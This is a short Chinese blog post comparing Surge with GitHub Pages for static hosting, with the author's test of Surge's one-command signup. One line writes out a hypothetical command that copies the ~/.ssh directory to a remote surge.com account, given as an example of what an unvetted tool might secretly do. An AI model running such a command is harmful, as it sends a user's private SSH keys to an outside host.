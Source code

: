 #+TITLE: 吐槽Surge vs Github Pages
#+WIKI: blogs blogging
#+STARTUP: inlineimages

我本来是随手搜一下Github Pages对页面路由的友好程度（我估计肯定得用'#'分隔），然
后搜到[[https://github.com/kriasoft/react-static-boilerplate/issues/58#issuecomment-169252404][一个issue的回答]] 推荐Surge，其中一句There are [[http://gh-pages-vs.surge.sh/][articles dedicated]] to how
hard it is to deal with GHPages. （我甚至原样保留了链接）

请自行点进去看吧。它大意是说，为了用Github Pages，你需要点开github页面建帐号生成
密钥上传密钥确认密钥建项目推代码；而Surge只要装npm，装surge（ src_js{npm install
--global surge} ，global重读），然后运行一行简单的命令就可以了！还要什么自行车啊！

锤子啊！

然后我定睛一看，发现Surge单独搞了个子域名来放这个页面！[[http://gh-pages-vs.surge.sh/]]！

好拼啊！

然后我自己装了一下，看看人家是怎么做到不要帐号不要密钥的呢？

[[./surge.png]]

人家说得没错！只要运行一行简单的命令，然后按照提示创建帐号！不用点开页面登录！不
过没能创建成功。

虽然不懂它说的权限是什么意思，但是我决定换一个和邮箱一样的域名试试（我估计只要不
是它自家域名就行）。然后我十分配合地放了一个index.html来问好。

[[./surge2.png]]

WTF！虽然我知道这不可能，但是还是赶紧去看了一下[[wtf.com]]，别人网站好好地在那……长
出一口气。

我好像没有用任何个人信息注册吧？万一弄脏了人家CDN应该也没事。不对……它那个命令
做了什么我完全不知道万一 src_bash{scp -r .ssh ooxx@surge.com:} 我就只能长跪不
起……天知道它的代码有多少人看过……

我已经抓不住吐槽的重点了。想来虽然我尚未毕业，但是即将步入中年，思想陈腐，已经被
时代抛弃了。我会努力学习，做出这种简单粗暴，解决痛点的产品。

